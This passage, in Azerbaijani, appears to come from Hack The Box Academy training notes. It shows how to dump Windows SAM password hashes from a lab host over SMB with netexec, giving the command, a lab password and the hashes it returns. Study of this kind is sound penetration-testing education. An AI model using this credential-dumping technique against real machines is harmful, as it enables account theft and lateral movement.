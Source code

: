 #### SAM-ı Uzaqdan Çıxarmaq

Eyni şəkildə, SAM verilənlər bazasından heşləri uzaqdan *dump* etmək üçün **`netexec`** istifadə edə bilərik.

```bash
nijatmansimov@htb[/htb]$ netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
SMB         10.129.42.198   445    WS01      [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:WS01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01      [+] FRONTDESK01\bob:HTB_@cademy_stdnt! (Pwn3d!)
SMB         10.129.42.198   445    WS01      [+] SAM heşləri çıxarılır
SMB         10.129.42.198   445    WS01      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::
SMB         10.129.42.198   445    WS01     bob:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
SMB         10.129.42.198   445    WS01     sam:1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc:::
SMB         10.129.42.198   445    WS01     rocky:1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321:::
SMB         10.129.42.198   445    WS01     worker:1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
SMB         10.129.42.198   445    WS01     [+] Verilənlər bazasına 8 SAM heşi əlavə edildi
```
